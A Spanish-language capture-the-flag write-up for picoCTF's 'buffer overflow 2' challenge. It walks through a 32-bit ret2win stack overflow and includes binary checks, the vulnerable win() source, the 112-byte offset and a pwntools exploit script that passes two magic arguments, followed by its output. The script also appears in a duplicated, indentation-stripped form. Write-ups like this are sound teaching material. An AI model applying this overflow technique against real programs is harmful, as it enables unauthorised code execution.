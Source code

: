 ```bash
file vuln  
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped  
```

```bash
checksec --file=vuln  
RELRO STACK CANARY NX PIE RPATH RUNPATH Symbols FORTIFY FortifiedFortifiable FILE  
Partial RELRO No canary found NX enabled No PIE No RPATH No RUNPATH 77 Symbols No 0 3 vuln  
```

Este reto es un Ret2Win simple como el ejercicio anterior “buffer overflow 1”, pero requiere que la función a la que queremos llegar tenga 2 argumentos con un cierto valor para que imprima la flag.

```c
void win(unsigned int arg1, unsigned int arg2) {
    char buf[FLAGSIZE];
    FILE *f = fopen("flag.txt", "r");

    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }
    fgets(buf, FLAGSIZE, f);

    if (arg1 != 0xCAFEF00D)
        return;

    if (arg2 != 0xF00DF00D)
        return;

    printf(buf);
}
```

Podemos aprovechar el script anterior, cambiando el offset al del nuevo binario y pasándole como argumentos esas 2 direcciones. Como el binario es x86 podemos simplemente lanzarle los argumentos después de la dirección de retorno.

```c
EIP 0x62616164 ('daab')  
```

```c
Found at offset 112  
```

Vamos a crear el script:

```python
[from pwn import *  
exe = ELF("./vuln_patched")  
context.binary = exe

def conn():  
if args.LOCAL:  
r = process([exe.path])  
if args.DEBUG:  
gdb.attach(r)  
else:  
r = remote("saturn.picoctf.net", 61001)  
return r

def main():  
r = conn()  
padding = 112
payload = flat({  
    padding: [  
        exe.symbols.win,  
        0x0, # Dirección de retorno  
        0xCAFEF00D, # Argumento 1  
        0xF00DF00D # Argumento 2  
    ]  
})  
r.sendline(payload)  
r.interactive()  
if **name** == "**main**":  
main()](<from pwn import *

exe = ELF("./vuln_patched")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("saturn.picoctf.net", 61001)
    return r

def main():
    r = conn()
    padding = 112
    payload = flat({
        padding: [
            exe.symbols.win,
            0x0,         # Dirección de retorno
            0xCAFEF00D,  # Argumento 1
            0xF00DF00D   # Argumento 2
        ]
    })
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()>)
```

¡Funciona!

```bash
python solve.py  
[_] '/home/ub1cu0/Desktop/picoCTF/buffer_overflow_2/vuln_patched'  
Arch: i386-32-little  
RELRO: Partial RELRO  
Stack: No canary found  
NX: NX enabled  
PIE: No PIE (0x8048000)  
SHSTK: Enabled  
IBT: Enabled  
Stripped: No  
[+] Opening connection to saturn.picoctf.net on port 54392: Done  
[_] Switching to interactive mode  
Please enter your string:  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab\x96\x92\x04\x08  
picoCTF{SECRETO}  
[*] Got EOF while reading in interactive  
```
